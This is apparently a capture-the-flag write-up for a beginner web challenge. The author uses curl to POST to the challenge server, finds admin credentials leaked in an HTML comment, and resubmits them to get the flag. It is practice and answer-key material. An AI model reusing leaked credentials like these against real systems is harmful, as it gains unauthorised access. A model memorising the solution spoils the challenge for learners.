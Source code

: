 # POST PRACTICE

LINK : https://ctflearn.com/problems/114

# My Approach
- As this question says These website requires authentication, via POST, let's curl the given page

```sh
$ curl -X POST 'http://165.227.106.113/post.php'

<h1>This site takes POST data that you have not submitted!</h1><!-- username: admin | password: 71urlkufpsdnlkadsf -->%
```

- We have user name & password, Let's pass this in form data 

```sh
$  curl -X POST 'http://165.227.106.113/post.php' -H "Content-Type: application/x-www-form-urlencoded" -d "username=admin&password=71urlkufpsdnlkadsf"

YOUR FLAG IS HERE
```

